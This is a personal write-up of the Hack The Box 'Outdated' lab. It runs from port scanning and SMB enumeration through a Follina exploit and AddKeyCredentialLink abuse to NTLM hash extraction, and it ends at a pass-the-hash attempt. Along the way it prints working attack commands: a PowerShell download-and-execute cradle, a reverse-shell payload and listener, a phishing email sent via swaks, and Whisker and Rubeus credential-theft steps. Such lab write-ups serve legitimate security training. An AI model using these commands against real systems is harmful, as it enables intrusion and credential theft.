



---
tags:
  - CVE-2022-30190
  - follina
  - AddKeyCredentialLink
  - WSUS
group: ActiveDirectory
---


- Machine : https://app.hackthebox.com/machines/Outdated
- Reference : https://0xdf.gitlab.io/2022/12/10/htb-outdated.html
- Solved : 2024.11.29. (Fri) (Takes 2day)
---
## Summary

1. **Initial Enumeration**
    
    - **Port Scanning**: Identified key open ports, including DNS (53), Kerberos (88), LDAP (389/636), SMB (445), HTTP (8530), and WinRM (5985).
    - **DNS Enumeration**: Discovered domain `outdated.htb` and hostname `dc.outdated.htb` via zone transfer and query (`dig`).
    - **SMB Enumeration**: Found accessible shares and downloaded a document (`NOC_Reminder.pdf`) containing useful information such as vulnerabilities and an email (`itsupport@outdated.htb`).
    
2. **Web Exploitation**
    - **Follina Exploit (CVE-2022-30190)**:
        - Used a public exploit to craft an RTF payload and sent it via SMTP to the discovered email address.
        - Triggered the payload to execute a reverse shell as user `btables`.
    
3. **Active Directory Exploitation**
    - **BloodHound Analysis**:
        - Identified `AddKeyCredentialLink` privilege for `btables`.
    - **KeyCredential Abuse**:
        - Used `Whisker` to abuse the `AddKeyCredentialLink` privilege and added a certificate to the `sflowers` user account.
        - Retrieved the NTLM hash for `sflowers` using `Rubeus`.
	
4. **Privilege Escalation**
    - **WSUS Exploitation**:
        - Leveraged the `WSUS Administrators` group membership of `sflowers` to exploit a non-HTTPS WSUS server (`http://wsus.outdated.htb:8530`).
        - Used `SharpWSUS` to create and approve a malicious WSUS update containing a reverse shell payload.
        - Executed the update on the domain controller to gain a reverse shell as `NT AUTHORITY\SYSTEM`.

### Key Techniques:

- **Enumeration**: DNS, SMB shares, and WSUS server.
- **Exploit Development**: Leveraged vulnerabilities like `CVE-2022-30190` (Follina) and WSUS misconfigurations.
- **Active Directory Misuse**: Exploited `AddKeyCredentialLink` and WSUS to escalate privileges.
- **Tool Usage**: Utilized tools like `BloodHound`, `Whisker`, `Rubeus`, and `SharpWSUS`.

---

# Reconnaissance
### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.11.175
Performing quick port scan on 10.10.11.175...
Found open ports: 25,53,88,135,139,389,445,464,593,636,3269,5985,8530,9389,49666,49687,49688,49924,49941,49944
Performing detailed scan on 10.10.11.175...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-28 10:05 EST
Nmap scan report for 10.10.11.175
Host is up (0.13s latency).

PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: mail.outdated.htb, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-28 23:05:40Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2024-11-28T22:52:07
|_Not valid after:  2025-11-28T22:52:07
|_ssl-date: 2024-11-28T23:07:12+00:00; +8h00m00s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-11-28T23:07:13+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2024-11-28T22:52:07
|_Not valid after:  2025-11-28T22:52:07
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-11-28T23:07:13+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2024-11-28T22:52:07
|_Not valid after:  2025-11-28T22:52:07
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8530/tcp  open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49687/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49688/tcp open  msrpc         Microsoft Windows RPC
49924/tcp open  msrpc         Microsoft Windows RPC
49941/tcp open  msrpc         Microsoft Windows RPC
49944/tcp open  msrpc         Microsoft Windows RPC
Service Info: Hosts: mail.outdated.htb, DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-11-28T23:06:33
|_  start_date: N/A
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.16 seconds
```

- smtp(25) is running, and the name of the service is `hMailServer`.
- dns(53) is running which might be giving more info regarding domain.
- smb(139,445) is running which might be giving shares.
- kerberos(88), rpc(135), ldap(389), 5985(winrm) most AD services are running.
- Domain name is `outdated.htb`

### DNS(53)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ dig any @10.10.11.175 outdated.htb

; <<>> DiG 9.20.0-Debian <<>> any @10.10.11.175 outdated.htb
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 9321
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 7, AUTHORITY: 0, ADDITIONAL: 5

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;outdated.htb.                  IN      ANY

;; ANSWER SECTION:
outdated.htb.           600     IN      A       10.10.11.175
outdated.htb.           600     IN      A       172.16.20.1
outdated.htb.           3600    IN      NS      dc.outdated.htb.
outdated.htb.           3600    IN      SOA     dc.outdated.htb. hostmaster.outdated.htb. 228 900 600 86400 3600
outdated.htb.           600     IN      AAAA    dead:beef::fcf4:6d7c:6789:df3f
outdated.htb.           600     IN      AAAA    dead:beef::213
outdated.htb.           600     IN      AAAA    dead:beef::794b:373:26c4:e202

;; ADDITIONAL SECTION:
dc.outdated.htb.        3600    IN      A       172.16.20.1
dc.outdated.htb.        3600    IN      A       10.10.11.175
dc.outdated.htb.        3600    IN      AAAA    dead:beef::fcf4:6d7c:6789:df3f
dc.outdated.htb.        3600    IN      AAAA    dead:beef::213

;; Query time: 124 msec
;; SERVER: 10.10.11.175#53(10.10.11.175) (TCP)
;; WHEN: Thu Nov 28 10:16:16 EST 2024
;; MSG SIZE  rcvd: 309


┌──(kali㉿kali)-[~/htb]
└─$ dig axfr @10.10.11.175 outdated.htb

; <<>> DiG 9.20.0-Debian <<>> axfr @10.10.11.175 outdated.htb
; (1 server found)
;; global options: +cmd
; Transfer failed.
```

### smtp(25)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nmap -Pn -p25 --script smtp-commands outdated.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-28 10:23 EST
Nmap scan report for outdated.htb (10.10.11.175)
Host is up (0.13s latency).

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-commands: mail.outdated.htb, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY

Nmap done: 1 IP address (1 host up) scanned in 0.81 seconds


┌──(kali㉿kali)-[~/htb]
└─$ nmap -Pn -p25 --script smtp-open-relay outdated.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-28 10:23 EST
Nmap scan report for outdated.htb (10.10.11.175)
Host is up (0.15s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server isn't an open relay, authentication needed

Nmap done: 1 IP address (1 host up) scanned in 0.99 seconds
```

### smb(139,445)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ smbclient -L 10.10.11.175
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
        UpdateServicesPackages Disk      A network share to be used by client systems for collecting all software packages (usually applications) published on this WSUS system.
        WsusContent     Disk      A network share to be used by Local Publishing to place published content on this WSUS system.
        WSUSTemp        Disk      A network share used by Local Publishing from a Remote WSUS Console Instance.
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.175 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

┌──(kali㉿kali)-[~/htb]
└─$ smbclient \\\\10.10.11.175\\WsusContent
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
smb: \> exit
                                                                            
┌──(kali㉿kali)-[~/htb]
└─$ smbclient \\\\10.10.11.175\\WSUSTemp   
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
smb: \> exit
                                                                            
┌──(kali㉿kali)-[~/htb]
└─$ smbclient \\\\10.10.11.175\\UpdateServicesPackages
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
```

There are several shares found. However, except the default share, all shares except `shares` are not allowing listing.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ smbclient \\\\10.10.11.175\\shares
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jun 20 11:01:33 2022
  ..                                  D        0  Mon Jun 20 11:01:33 2022
  NOC_Reminder.pdf                   AR   106977  Mon Jun 20 11:00:32 2022

                9116415 blocks of size 4096. 1855335 blocks available
smb: \> get NOC_Reminder.pdf
getting file \NOC_Reminder.pdf of size 106977 as NOC_Reminder.pdf (116.2 KiloBytes/sec) (average 116.2 KiloBytes/sec)

```

I can find pdf file from the share, so I download it.
Let's see what's in it.

```yaml
┌──(kali㉿kali)-[~/htb]
└─$ file NOC_Reminder.pdf 
NOC_Reminder.pdf: PDF document, version 1.3, 1 page(s)
                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ exiftool NOC_Reminder.pdf 
ExifTool Version Number         : 12.76
File Name                       : NOC_Reminder.pdf
Directory                       : .
File Size                       : 107 kB
File Modification Date/Time     : 2024:11:28 11:26:42-05:00
File Access Date/Time           : 2024:11:28 11:35:02-05:00
File Inode Change Date/Time     : 2024:11:28 11:26:42-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.3
Linearized                      : No
Page Count                      : 1
Profile CMM Type                : Linotronic
Profile Version                 : 2.1.0
Profile Class                   : Display Device Profile
Color Space Data                : RGB
Profile Connection Space        : XYZ
Profile Date Time               : 1998:02:09 06:49:00
Profile File Signature          : acsp
Primary Platform                : Microsoft Corporation
CMM Flags                       : Not Embedded, Independent
Device Manufacturer             : Hewlett-Packard
Device Model                    : sRGB
Device Attributes               : Reflective, Glossy, Positive, Color
Rendering Intent                : Perceptual
Connection Space Illuminant     : 0.9642 1 0.82491
Profile Creator                 : Hewlett-Packard
Profile ID                      : 0
Profile Copyright               : Copyright (c) 1998 Hewlett-Packard Company
Profile Description             : sRGB IEC61966-2.1
Media White Point               : 0.95045 1 1.08905
Media Black Point               : 0 0 0
Red Matrix Column               : 0.43607 0.22249 0.01392
Green Matrix Column             : 0.38515 0.71687 0.09708
Blue Matrix Column              : 0.14307 0.06061 0.7141
Device Mfg Desc                 : IEC http://www.iec.ch
Device Model Desc               : IEC 61966-2.1 Default RGB colour space - sRGB
Viewing Cond Desc               : Reference Viewing Condition in IEC61966-2.1
Viewing Cond Illuminant         : 19.6445 20.3718 16.8089
Viewing Cond Surround           : 3.92889 4.07439 3.36179
Viewing Cond Illuminant Type    : D50
Luminance                       : 76.03647 80 87.12462
Measurement Observer            : CIE 1931
Measurement Backing             : 0 0 0
Measurement Geometry            : Unknown
Measurement Flare               : 0.999%
Measurement Illuminant          : D65
Technology                      : Cathode Ray Tube Display
Red Tone Reproduction Curve     : (Binary data 2060 bytes, use -b option to extract)
Green Tone Reproduction Curve   : (Binary data 2060 bytes, use -b option to extract)
Blue Tone Reproduction Curve    : (Binary data 2060 bytes, use -b option to extract)
Producer                        : macOS Version 10.15.7 (Build 19H1922) Quartz PDFContext
Creator                         : Word
Create Date                     : 2022:06:20 15:00:32Z
Modify Date                     : 2022:06:20 15:00:32Z
```

There's no clue apparently. Let's open the pdf to see what's written.



It's an announcement to IT Staff regarding vulnerabilities found recently.
Also there seems to be an email `itsupport@outdated.htb` which might be useful with smtp.

Plus, let's do research on the listed vulnerabilities.

First, `CVE-2022-30190` is RCE vulnerabilities observed in `Microsoft Windows Support Diagnostic Tool(MSDT)`.
https://www.hackthebox.com/blog/cve-2022-30190-follina-explained
Second, `CVE-2022-30138` is RCE vulnerability happening on `Print Spooler` and related with Privilege Escalation.
Third, `CVE-2022-30129` is RCE vulnerability happening on `Visual Studio Code`.
Forth, `CVE-2022-29130` is related with `LDAP` service.
Lastly, `CVE-2022-29110` is related with `Microsoft Excel`.

# Shell as `btables`

### Exploiting CVE-2022-30190

CVE-2022-30190 is critical RCE vulnerability that once the target system's user opens a link, the msdt protocol allows the RCE commands.

I'm using the following public exploit;
<https://github.com/chvancooten/follina.py/tree/main>

```bash
┌──(kali㉿kali)-[~/htb/follina.py]
└─$ python3 follina.py -m command -t rtf -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14/shell.ps1')"
Generated 'clickme.rtf' in current directory
Generated 'exploit.html' in 'www' directory
Serving payload on http://localhost:80/exploit.html
```

Run the exploit, and we can save the `exploit.html` file to host it in the same directory with payload.

Let's download it and save as `index.html`.

```bash
┌──(kali㉿kali)-[~/htb/outdated/www]
└─$ curl http://10.10.14.14/exploit.html -o index.html
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    100  5785  100  5785    0     0   703k      0 --:--:-- --:--:-- --:--:--  807k
```

For the payload, I'm using `conptyshell` which is fully interactive on Windows environment.

```
function Invoke-ConPtyShell
{   
    <#
        .SYNOPSIS
            ConPtyShell - Fully Interactive Reverse Shell for Windows 
            Author: splinter_code
            License: MIT
            Source: https://github.com/antonioCoco/ConPtyShell
<SNIP>

{
    static void Main(string[] args)
    {
        Console.Out.Write(ConPtyShellMainClass.ConPtyShellMain(args));
    }
}

"@;

Invoke-ConPtyShell 10.10.14.14 9001
```

Then, let's host `index.html`, `shell.ps1` on port 80.
The web request without specific file is normally redirected to `index.html`.

Then, let's send a mail to `itsupport@outdated.htb`.

```bash
┌──(kali㉿kali)-[~/htb/outdated/www]
└─$ swaks --to itsupport@outdated.htb \
      --from bokchee@paeeri.com \
      --server 10.10.11.175 \
      --port 25 \
      --header "Subject: http://10.10.14.14" \
      --body "http://10.10.14.14"
=== Trying 10.10.11.175:25...
=== Connected to 10.10.11.175.
<-  220 mail.outdated.htb ESMTP
 -> EHLO kali
<-  250-mail.outdated.htb
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<bokchee@paeeri.com>
<-  250 OK
 -> RCPT TO:<itsupport@outdated.htb>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Thu, 28 Nov 2024 14:02:45 -0500
 -> To: itsupport@outdated.htb
 -> From: bokchee@paeeri.com
 -> Subject: http://10.10.14.14
 -> Message-Id: <20241128140245.068341@kali>
 -> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
 -> 
 -> http://10.10.14.14
 -> 
 -> 
 -> .
<-  250 Queued (10.360 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

Then, let's open a listener and wait for connection.

```bash
┌──(kali㉿kali)-[~/htb/follina.py]
└─$ stty raw -echo; (stty size; cat) | nc -lvnp 9001
listening on [any] 9001 ...
                           connect to [10.10.14.14] from (UNKNOWN) [10.10.11.175] 49874

<SNIP>

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\btables\AppData\Local\Temp\SDIAG_fc85bb81-7cff-4679-80e3-69f817
43adfb> whoami
outdated\btables
```

Now I have a shell as `btables`!

Since it's Active Domain Controller, let's collect DC info using `SharpHound.exe`.
Let's use `SharpHound.exe` and `PSUpload.ps` to do it.

# Shell as `sflowers`

### BloodHound

Let's check `btables` as owned, and run `Shortest Path to Domain Admins from Owned Principals`.



To fetch towards `Domain Admins`, I have to utilize `AddKeyCredentialLink` first.

BloodHound provides examples of exploitation.

```markdown
# Windows abusing
To abuse this privilege, use Whisker.

You may need to authenticate to the Domain Controller as a member of ITSTAFF@OUTDATED.HTB if you are not running a process as a member

Whisker.exe add /target:<TargetPrincipal>
For other optional parameters, view the Whisker documentation.


# Linux Abusing

To abuse this privilege, use pyWhisker.

pywhisker.py -d "domain.local" -u "controlledAccount" -p "somepassword" --target "targetAccount" --action "add"
For other optional parameters, view the pyWhisker documentation.
```

### Exploiting AddKeyCredentialLink

Since we don't have exact credential of `btables` account, I think it'd be better to use `Windows Abusing` method.

Let's list all the values of the the msDS-KeyCredentialLink attribute of a target object:

```bash
PS C:\Users\btables\Desktop> .\Whisker.exe list /domain:outdated.htb /targe
t:sflowers /dc:DC.outdated.htb
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Listing deviced for sflowers:
[*] No entries!
```

Nothing found.
Let's add one

```bash
PS C:\Users\btables\Desktop> .\Whisker.exe add /domain:outdated.htb /target
:sflowers /dc:dc.outdated.htb /password:bokchee
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID de62a677-a631-4171-ba8a-4d19ff972
b3b
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:sflowers /certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHA
aCCCWUEgglhMIIJXTCCBhYGCSqGSIb3DQEHAaCCBgcEggYDMIIF/zCCBfsGCyqGSIb3DQEMCgEC
oIIE/jCCBPowHAYKKoZIhvcNAQwBAzAOBAhLJ+qVfeKAagICB9AEggTYHwtR1yv/L0u5+z00QaI
lSYmpm0J8b9lq07aOybQhtN1qfHqxIsbc1+Vr0YtJ5T/dZlj1ZEiVbm3zgr1NUwfWqrstwVUCu1
ofBbuNB/Oa43weWOrs6kG9FvxkrOMKG695SMJ3N56c4n9i/UbOSb1TcR7P0KXHy2U/hsDCjUW93
7QIJmwharRgiD4KQP6xzF+jZgWnWqAKzuiAIb8gTeYE/prwq5P8zefB/3iaA3+COuNDDYjBlIyU
7zv/JO4VSWRHC02y+XzqsKFieAdnuoqSNjp/NWRvXK/PZHE1FV1wahMPzgJDSef+qcRp6v78L+4
Oy8uAT4LbFb6kaCeYL9+vCP4a6WLcMhCJUoHE4gW4FpYEz0pKejfBFfguEakJn++wReIMbGhJyh
UJ1PaY6by64wzXrIhzdv3frtt1flJ2FmA6xdZYrdho3Q495tGmKLoIkzca9vK2YRuU6skpZRCvo
QXKdV5HZxFl4O9IIJ75Umq5wo9ZLwbt2JiHBTebEnvXNmiFqtsoKT+m5T9cmwq1ABeEEotLKhB2
7EbWDHCdyCQqPwKSrfGDzPeu/uB50sFV4vXJLC42OGDmQGHEPNUBVQx9mEw4oKggX9p5wSk10JT
AC7Tz8F/tE3p3+V7EJ6QPALPaAona2TPTpjuv8zfZUqmL2zz2JKCXg3lUKl5FsFA+9puK7e10G9
OoHCf8ViiTQ+GyDSKPKAm6E5wIiGnr8/E+AsZayP3dxuStyToLvqrX3z4csj5vhFKisU0HjG9lZ
HTx3j+D22XQzQR1vSQlA0tXvs7GgykgjewPwPQ/rk3vtXYAlqqoxTOS7YE7LeFvkzr6zpUwMsu2
o1mqeQwKkW00rU18LEg/yoMfhM+3hdPl29QawV+HN9+WOCKALvQr3+s2s1Nj5Racm4+Hxz3P8rG
cRByeR9M828/bzYG+KdvxzyDpzipXnOF5HJ/Gs5Ne4My17qNAIn2aJY6439eR8NEylmXe6WPKkc
KVg4F5UmbVMjNkmb8perIQN8WFETfzZU7qQP8qn0Uztrsr6OEc8By8ofWTwKZ+eu1jy6aNoV1qy
w8yXOWVX8NyNgIhwpOiMsZCcK1LnrthTzZ4xtguVbo/hYb38uYFQx+eYVLv1jQZdegP8H2uADUG
lPdTB2gHEH9bUC/F5EWgP5+xmZ0jFzmpYNi94taMeNfT2pI64dsdeIzxQhWTs+0vaYTZ9lOUrAH
qHC3yuxQ+yIwpkCFKPf5xUSasfPIrkwTs4oT7BfawALak9kqwEKF2zGKJax1qzLPwtyRMNEOEIN
qd9o/n4Cv0bT+lWFCCuI78PkCg061EzMW9lE/wr/9itx7tuwfQWlzoXCj4iOChOWEdPkzefJuuC
eKE0q3FPTOeeCBGUelgteuU15Wt5rcak4erpfbp9GaUoQ4m5We9sT90WwVJtxuPRVj0ySm2phXb
HWGpj3asutC2Zcuq7PuHZG4IPt8jRf1CBwZ3XkaysfWIEN/fYieMt1W1WBRWjvwLMfxk3zoNa9Q
kMNJjgfgPzT+wNwHQ3ZVVe5eV+oAXTuCG/VHa8QRFS1VAfmk7/fKr5h8sgYRNhkJhQ6ujwfatby
qJGr2X7hNAvV8ztPkp9G3acP2OMBFFkqU6zKH+pO3nSXF8sUvMxj2fryqYODGB6TATBgkqhkiG9
w0BCRUxBgQEAQAAADBXBgkqhkiG9w0BCRQxSh5IAGIANABjADkAZgAzADMAMAAtAGUAYgA0AGYA
LQA0ADAANQBjAC0AOQA2AGYAOAAtADIAOABkAGEANgBkADMAMgBiADgAZQAyMHkGCSsGAQQBgjc
RATFsHmoATQBpAGMAcgBvAHMAbwBmAHQAIABFAG4AaABhAG4AYwBlAGQAIABSAFMAQQAgAGEAbg
BkACAAQQBFAFMAIABDAHIAeQBwAHQAbwBnAHIAYQBwAGgAaQBjACAAUAByAG8AdgBpAGQAZQByM
IIDPwYJKoZIhvcNAQcGoIIDMDCCAywCAQAwggMlBgkqhkiG9w0BBwEwHAYKKoZIhvcNAQwBAzAO
BAi6w0PZ56RT7QICB9CAggL4uoMxY+e5SQGxhXfxKSqVE9T7u2JAKvBHygN+tE4vLrl8gnYjCoq
PsvHwraib1HMfZQaGJfg+WUjGdJfj5fiPQner+i+krasOe0Ln529oUsGuHjuer46xY+7t6Wh2I+
I+aNJ9E0Nkkr7tK7o4FyAC0Blrf7P9cUbkjZAG0j5vGXmw2BFjPWD6Qp/xjazg9u7JZjXBr4dod
fWZfY5ROcJ+7g6rDaUk4YUjUnCUn78hnabkDPFHkcVTAbqmFjr8jROoUJ6lmEuFwVbxxqW6Qi9B
Wnd+aFj4wRnrRAV9hC505Coq2RGrCGCBm65KVPTm7Agt2KJ9CZrygGP0r76wJY/pjTXe5x201sV
3MNlemKa6AuKIfev9IlZDsRxRLCahDhvi4kg4ysgV6Y+xk0IVrFbTNjqtM2H+YljRztN0HWxBj0
8/kn4Z6R3Q4KBFb04H8myoiwmyDkZKPgOpuSL5IbpsN+mmApb2j7Mmoym/sUdHeZbQ/mltIA4bw
+fQeVAR7Lo99T5NItWdr941m14q6U58CsHNt2IB0Phj1MxbWxuVFKmKkYAAXn2kL4wKnqNj/0CG
ZkcOIf2stblDv+uB4c1PYBNNIZG6MYfLncV+TK43XP4jA29LApN+4cHqcLJn3ro6l71hpLwAHb0
V7qfDXkBKLT2h0xP3i9lGDTziaVoWJSGwFzf26YWiA8ZNZtjIturUME9ygcLBiXm67vprxLlcLZ
cnc7/Ryu9bkCYGLlWG2E+pdjokYoIDbNv8g4Y10PI3yfB5Izb4tjJ+LwLq5LnVM1QzH31pCYECi
4tY2ZsItJkSroIJzQ7+ivdBu8WtapX00xQwW/9xlSJXjFz5yCfSzcgxR5RBVUyeaIaINxb/dyWr
+3Q5BM90LbAx+cYm0GY0IdXg+YF6jEAWpcl7CitF5Y+UUomVFBOZR4BeCtb4sHzaNXfD3NLhIKj
aGBuIitLMPUp2Hyms8AAAWtNrJ7E+rDOQnOaYCEhEQ2qVBBL6a3lD4udRjdfyRzA7MB8wBwYFKw
4DAhoEFHFau38/svCLpcFxXqgQN5D5szeOBBT6ao+jw6DfD/ARuMxXGNADBO0hmwICB9A= /pas
sword:"bokchee" /domain:outdated.htb /dc:dc.outdated.htb /getcredentials /s
how
```

I can successfully add key-credential, and it prints out the possible command line using `Rubeus.exe`.

Before using the command line above, you need to process it to remove newline(`\n`).

```bash
PS C:\Users\btables\Desktop> .\Rubeus.exe asktgt /user:sflowers /certificat
<SNIP>

  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers (NT_PRINCIPAL)
  UserRealm                :  OUTDATED.HTB
  StartTime                :  11/29/2024 1:23:16 PM
  EndTime                  :  11/29/2024 11:23:16 PM
  RenewTill                :  12/6/2024 1:23:16 PM
  Flags                    :  name_canonicalize, pre_authent, initial, rene
wable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  iqFRJkIWEeUmW2na98gUHg==
  ASREP (key)              :  D2840E5FE3D879B8BC04BD4411CD3888

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
```

With `Rubeus.exe` I can successfully extract NTLM hash of `sflowers` : `1FCDB1F6015DCB318CC77BB2BDA14DB5`.

Let's try cracking this hash first.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 1000 -a 0 sflowers.ntlm /usr/share/wordlists/rockyou.txt.gz
hashcat (v6.2.6) starting

<SNIP>

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 1fcdb1f6015dcb318cc77bb2bda14db5
Time.Started.....: Fri Nov 29 08:30:13 2024 (3 secs)
Time.Estimated...: Fri Nov 29 08:30:16 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
```

Can't crack the hash..
Then, let's try to use the hash directly.

```basha
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.11.175 -u sflowers -H 1FCDB1F6015DCB318CC77BB2BDA14DB5
[*] First time use detected
